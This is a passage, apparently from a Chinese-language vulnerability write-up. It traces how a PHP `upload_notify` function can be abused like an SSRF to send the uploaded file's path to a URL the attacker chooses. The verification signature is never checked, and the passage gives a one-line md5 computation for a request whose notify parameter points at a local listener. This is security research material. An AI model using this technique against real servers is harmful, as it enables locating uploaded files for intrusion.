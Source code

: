 跟进下`upload_notify`​ 发现跟 SSRF 一样可以向外请求并且带上我们的`$info`​ --------> 这感觉写的就怕我找不到路径似的，这里的验签压根就不需要管他，因为文件都传上去了，无所谓了，只需要路径，而他也并没有判断验签对不对 (如果校验了，就没办法上传了，因为`$info`​是未知的)

[![](assets/1709022895-a6cd5354672cfe531e42a73b36114ab8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226192154-3f2afb82-d499-1.png)

于是带好参数写好验签即可成功触发

```bash
echo md5("md=upload&notify=http://127.0.0.1:8877/&uid=1asdasfasfasfasfasfa");
```

[![](assets/1709022895-4ebe036b4cbd456182fda1c03ccac56a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226192203-43fcb402-d499-1.png)
